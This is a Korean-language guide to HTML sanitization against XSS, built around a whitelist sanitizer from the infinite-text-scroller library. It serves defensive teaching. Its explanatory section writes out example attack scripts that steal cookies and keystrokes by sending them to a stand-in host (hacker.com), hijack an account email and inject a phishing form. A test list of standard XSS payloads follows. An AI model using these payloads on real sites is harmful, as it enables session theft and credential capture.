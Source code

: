 # HTML 새니타이징(Sanitization) - XSS 공격 방어

## 개요

HTML 새니타이징은 사용자 입력이나 외부 데이터에서 위험한 HTML/JavaScript 코드를 제거하거나 무력화하여 XSS(Cross-Site Scripting) 공격을 방지하는 보안 기법입니다.

## 문제: XSS(Cross-Site Scripting) 공격

웹 애플리케이션에서 사용자가 제공한 HTML을 그대로 렌더링하면 악의적인 스크립트가 실행될 수 있습니다.

```javascript
// 위험한 코드
element.innerHTML = userInput; // userInput에 <script>alert('hacked')</script> 포함 가능
```

### 악의적인 스크립트란?

사용자의 의도와 무관하게 해를 끼치는 JavaScript 코드입니다.

```javascript
// 1. 쿠키 탈취 (세션 하이재킹)
<script>
  fetch('http://hacker.com?cookie=' + document.cookie)
</script>

// 2. 계정 정보 변경
<script>
  fetch('/api/change-email', {
    method: 'POST',
    body: JSON.stringify({email: 'hacker@evil.com'})
  })
</script>

// 3. 키로깅 (입력 정보 훔치기)
<script>
  document.addEventListener('keypress', e => {
    fetch('http://hacker.com?key=' + e.key)
  })
</script>

// 4. 피싱 페이지 삽입
<script>
  document.body.innerHTML = '<form>로그인: <input type="password"></form>'
</script>
```

이런 스크립트가 게시글, 댓글 등 사용자 입력을 통해 웹사이트에 삽입되면, 그 페이지를 보는 다른 사용자들의 브라우저에서 실행되어 정보를 탈취하거나 부정한 행위를 수행합니다.

## 해결: HTML 새니타이징

### 구현 방법

infinite-text-scroller 라이브러리의 구현 예시 (`src/index.js:45-84`):

```javascript
static #sanitizeHTML = (html) => {
  // 1. 허용할 태그 목록 정의
  const allowedTags = ['b', 'strong', 'i', 'em', 'u', 'span', 'br', 'mark'];
  const allowedAttrs = ['style', 'class'];

  // 2. 임시 DOM 요소에 HTML 파싱
  const temp = document.createElement('div');
  temp.innerHTML = html;

  // 3. TreeWalker로 모든 요소 순회
  const walker = document.createTreeWalker(
    temp,
    NodeFilter.SHOW_ELEMENT,
    null,
    false
  );

  const nodesToRemove = [];
  let node;

  while (node = walker.nextNode()) {
    const tagName = node.tagName.toLowerCase();

    // 4. 허용되지 않은 태그 제거 대상에 추가
    if (!allowedTags.includes(tagName)) {
      nodesToRemove.push(node);
      continue;
    }

    // 5. 허용되지 않은 속성 제거
    const attrs = Array.from(node.attributes);
    attrs.forEach(attr => {
      if (!allowedAttrs.includes(attr.name.toLowerCase())) {
        node.removeAttribute(attr.name);
      }
    });
  }

  // 6. 위험한 태그를 텍스트 노드로 치환
  nodesToRemove.forEach(node => {
    const text = document.createTextNode(node.textContent);
    node.parentNode.replaceChild(text, node);
  });

  return temp.innerHTML;
};
```

### 주요 원리

1. **화이트리스트 방식**: 안전한 태그/속성만 허용 (블랙리스트보다 안전)
2. **DOM 파싱**: 브라우저의 HTML 파서를 활용하여 정확한 파싱
3. **TreeWalker 활용**: 모든 요소를 체계적으로 순회
4. **위험 요소 치환**: 제거 대신 텍스트 노드로 변환 (컨텐츠 보존)

### 사용 예시

```javascript
// 라이브러리 내부에서 사용 (src/index.js:131)
if (config.html) {
  textSpan.innerHTML = InfiniteTextScroller.#sanitizeHTML(config.html);
} else {
  textSpan.textContent = text;
}

// updateHtml 메서드에서도 사용 (src/index.js:452)
const sanitized = InfiniteTextScroller.#sanitizeHTML(newHtml);
```

## 실전 적용 시나리오

### ❌ 위험한 입력

```html
<script>alert('XSS')</script>
<img src=x onerror="alert('XSS')">
<a href="javascript:alert('XSS')">Click</a>
```

### ✅ 새니타이징 후

```html
alert('XSS')
x
Click
```

위험한 태그와 속성이 제거되고 텍스트만 남습니다.

### ✅ 안전한 입력

```html
<strong>중요</strong> 내용입니다 <em>강조</em>
<span style="color: red;">빨간 텍스트</span>
```

허용된 태그와 속성은 그대로 유지됩니다.

## 보안 고려사항

### 1. 화이트리스트 관리

```javascript
// 필요 최소한의 태그만 허용
const allowedTags = ['b', 'strong', 'i', 'em', 'u', 'span', 'br', 'mark'];

// onclick, onerror 등 이벤트 핸들러 속성 차단
const allowedAttrs = ['style', 'class']; // href, src 제외
```

### 2. CSS 인젝션 방지

현재 구현은 `style` 속성을 허용하지만, 더 강력한 보안이 필요한 경우:

```javascript
// CSS 속성 값 검증
if (attr.name === 'style') {
  const dangerousPatterns = /expression|javascript|behavior/i;
  if (dangerousPatterns.test(attr.value)) {
    node.removeAttribute('style');
  }
}
```

### 3. textContent vs innerHTML

```javascript
// 안전: 모든 입력을 텍스트로 처리
element.textContent = userInput;

// 주의: HTML 파싱 (새니타이징 필수)
element.innerHTML = sanitizeHTML(userInput);
```

## 대안 방법

### 1. DOMPurify 라이브러리

```javascript
import DOMPurify from 'dompurify';
const clean = DOMPurify.sanitize(dirty);
```

### 2. 템플릿 리터럴 (안전)



```javascript
// React, Vue 등의 프레임워크는 자동 이스케이핑
<div>{userInput}</div> // XSS 안전
<div dangerouslySetInnerHTML={{__html: sanitize(userInput)}} /> // 명시적 표시
```



## 테스트 방법

```javascript
// XSS 페이로드 테스트
const payloads = [
  '<script>alert(1)</script>',
  '<img src=x onerror=alert(1)>',
  '<svg onload=alert(1)>',
  '<iframe src=javascript:alert(1)>',
  '"><script>alert(1)</script>'
];

payloads.forEach(payload => {
  const result = sanitizeHTML(payload);
  console.assert(!result.includes('<script'), 'Script tag not removed!');
  console.assert(!result.includes('onerror='), 'Event handler not removed!');
});
```

## 참고 자료

- [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [DOMPurify Documentation](https://github.com/cure53/DOMPurify)
- [MDN: TreeWalker](https://developer.mozilla.org/en-US/docs/Web/API/TreeWalker)
- infinite-text-scroller 구현: `/Users/a220330001/Git/Personal/infinite-text-scroller/src/index.js:45-84`
